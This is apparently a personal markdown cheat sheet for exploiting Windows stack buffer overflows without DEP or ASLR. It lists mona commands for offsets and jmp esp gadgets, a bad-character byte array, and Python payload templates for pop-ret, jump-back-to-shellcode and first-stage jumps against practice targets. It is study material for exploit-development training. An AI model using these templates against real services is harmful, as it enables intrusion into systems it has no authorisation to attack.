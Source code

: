 # Stack Buffer Overflow (no DEP, no ASLR)

## Step
1. Find initial crash
2. Find offset with:
```py
!py mona pc XXX 
```
3. Find badchar:

```py
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

4. Exploit:

	1. Is there a lot of space? 
	```py
	!py mona jmp -r esp -cpb '\x00' 
	```
	2. There isn't space? Try with:
		
		1.  Try with POP 32; RET and you will point to the Cs
		
		```py
		httpMethod = b"C" * 8 +  b" /" 
		inputBuffer = b"A" * 253 
		inputBuffer += pack("<I",0x00418674) #00418674 pop eax; ret
		httpEndRequest = b"\r\n\r\n" 
		```
		
		2. Try with Jump back
		
		```py
		buffer = b"\x90"*1672
		sub_esp = b"\x83\xEC\x64\x90" * 5 #ESP - 500, (sub esp 100*5)
		buffer += sub_esp
		buffer += shellcode
		buffer += b"\x90"*(388-len(shellcode))
		buffer += pack("<I", 0x1480113d) # : jmp esp 1480113d
		buffer += b"\x90"*3
		buffer += b"\xe9\x07\xfe\xff\xff" #jmp -500 E907FEFFFF
		buffer += b"D"* (total - len(buffer))
		```
		
		3. Look to the other registers. There are other near to the payload?
		
		```py
		VULNSRVR_CMD = b"KSTET "  # change me
		size = 132  # change me

		stage_one  = b"\x83\xc0\x06"   # add eax,byte +0x6
		stage_one += b"\xff\xe0"  # jmp eax

		payload = VULNSRVR_CMD
		payload += b"A"*70
		payload += struct.pack("<I",0x62501203) #jmp esp 62501203
		payload += b"\x90" * 4
		payload += stage_one
		payload += b"C"*(size-len(payload))
		```

## Resources
1. https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
2. https://epi052.gitlab.io/notes-to-self/blog/2020-05-13-osce-exam-practice-part-one/
3. https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
4. https://www.bordergate.co.uk/dealing-with-small-buffer-space/
